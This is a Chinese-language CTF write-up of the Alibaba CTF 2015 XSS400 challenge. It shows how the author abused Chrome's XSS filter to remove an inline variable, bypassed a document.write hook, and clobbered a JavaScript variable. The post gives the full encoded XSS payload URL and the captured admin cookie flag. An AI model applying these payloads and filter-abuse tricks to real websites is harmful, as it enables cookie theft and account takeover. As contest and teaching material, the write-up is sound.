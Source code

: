 ```yaml
---
layout: post
title: Alibaba CTF 2015 - XSS400 WriteUP
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

周末两天都在疗养睡眠，恰逢 AliCTF 与 0ctf 的夺旗赛，其实我都快睡到周一了，可惜下午被 R29 叫起来说阿里出了道 XSS400 分的题还没有队伍做出，另外说明一下经过朋友得知，如果此题只有一队做出来的话，才可以直接发表 WriteUP ，不然会导致其他作弊队伍抄袭 WriteUP ，所以在几小时搞定此题后，我简单记录下这道题，比较有趣：

- Flag 隐藏在管理员的 Cookie 中
- 要求在最新版 Chrome 触发
- http://1de28830f09a4b1b.alictf.com/pet.php?id=test&type=cat

<center>
<img src="http://ww3.sinaimg.cn/large/c334041bjw1eqmynsy8c2j20e707ct9a.jpg" />
</center>


    <script>
        if(!window.chrome){
            alert('\u8bf7\u4f7f\u7528\u0043\u0068\u0072\u006f\u006d\u0065\u6d4f\u89c8\u5668\u6d4f\u89c8\u672c\u9875');
            location.href = 'https://www.google.com/chrome/';
        }
    </script>
    <script src="secWrite.js"></script>
    <script>var imageData = {name: "Oreo"}</script>
    </head>
    <body>
        <div id="console"></div>
        <img id="test" src="cat.jpg" name="cat" onload="loadSucc()" onerror="loadErr()">
        <script>
            function loadSucc(){
                document.write('This is '+imageData.name)    
            }

            function loadErr(){
                document.write('Load '+imageData.name+' Fail!')    
            }

        </script>
    </body>
    </html>
    
直接忽视 if(!window.chrome) 判断浏览器，看下 secWrite.js 文件：

    document.write = function(str){
        document.getElementById('console').innerText = str;
    }

id为imgID，type为imgName，这里对两个参数进行多种测试后发现无法逃逸出去，因为当 type 值不为 cat 后 imageData.name 值就被设为空值：

    <script>var imageData = {name: ""}</script>所以考虑是否能够进行 js 的变量覆盖来对 imageData 进行 name 值的修改，这里提一个小插曲，在 IE 下是可以通过类似方法进行 js 变量覆盖的：
    <html>
    <body>
        <form id="location" href="bar">
        <script>alert(location.href)</script>
    </body>
    </html>
    
但是题目要求是在最新版的 Chrome 下执行 XSS 恶意代码，所以我想消灭开头的这段初始变量代码：

    <script>var imageData = {name: "Oreo"}</script>

因为如果我们能够通过一些技巧将开始的 imageData 消灭的话就可以通过将 URL 中的 ID 设置为 imageData ，随后修改 URL 中的 type 参数，达到控制 imageData.name 的目的。

这里利用 Chrome filter 的特性，之前 Sogili 在 Twitter 发表过的一个 Tip：使用 Chrome Filter 干掉对应的 js 代码，例如：```&a=<script>var imageData = {name: "Oreo"}</script>```会触发 Chrome 过滤器另源码中的对应代码段失效，所以我们利用这个特性就能够消灭掉初始化变量代码，从而覆盖 imageData.name，但浏览器不会重新渲染页面 DOM ，所以 heige 提点使用 /? 绕过 secWrite.js 的 hook ，从而使 d.w 重现 DOM：

[http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=](http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=)

这时会因为请求不到```/pet.php/secWrite.js```而绕过 hook，绕过 d.w 的钩子后我们继续。

> F12 输入 imageData.name , document.body.outerHTML 可以看调试结果

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg)

这个时候经过 dom 解析后源码变成了：

    <html><head></head><body data-feedly-mini="yes">Load evi1m0 Fail!</body></html>
    
我们可控的 imageData.name 也就是上面输出到页面中的 evi1m0，这时通过测试使用 HTML hex 16 将 ```<script>alert(1)</script>``` 编码，然后再进行 URL 编码即可：

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg)

    %26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B
    
所以构造拼接起来的 alert URL：

[http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E](http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E)

![http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg](http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg)

修改最终版本的 Payload 并提交给 Alibaba CTF ，于是收到的 Cookie 字段：

    cookie : flag=aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA
    
BASE64 Decode:

    echo -n "aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA" | base64 -D
    http://1de28830f09a4b1b.alictf.com/yinqubaifumei_churenceo_renshengdianfeng.php?token=77a6e3a32a7508f49857b2d04e86250
    
![http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg](http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg)